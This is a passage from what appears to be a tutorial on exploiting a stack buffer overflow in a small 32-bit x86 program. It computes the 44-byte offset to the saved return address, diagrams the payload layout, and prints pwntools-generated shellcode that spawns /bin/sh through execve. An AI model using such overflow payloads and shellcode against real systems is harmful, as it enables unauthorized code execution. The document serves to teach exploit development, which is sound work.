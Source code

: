 Remember to always double check that the offset you have found allows to put the desired
value where you want.

For a simple program like that I could have found the offset simply looking at the instructions:
it's obvious that ``name`` is located at ``%ebp - 0x28``, since the ``pc`` register is one word
above ``ebp`` this gives an offset of 44 from the start of the buffer.

### Shellcode

Now I have a good estimate of the memory organization around the ``name`` buffer

```
<<< lower addresses                                                                                       upper addresses >>>

[local variables after buffer][            name            ][local variables before buffer][addr old ebp][addr eip][...
|                             |<-------------------------- 44 bytes ----------------------------------->||
|                              `-start of buffer                                                        ||
'----------------------------------------------- greeting()'s frame ------------------------------------''- main()'s frame
```

To avoid size constraint I'll place the effective code just after  the overwritten ``eip``,
this means that the first 44 bytes will be padding;

```
[          padding             ][addr shellcode][ shellcode ]
'-------- 44 bytes  -----------'          |             /'\
                                          '--------------'
```

To generate our shellcode I use another tool from pwntools: ``shellcraft``; this oneliner
creates a shellcode capable to instantiate a shell

```
$ shellcraft i386.linux.sh --format asm
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```

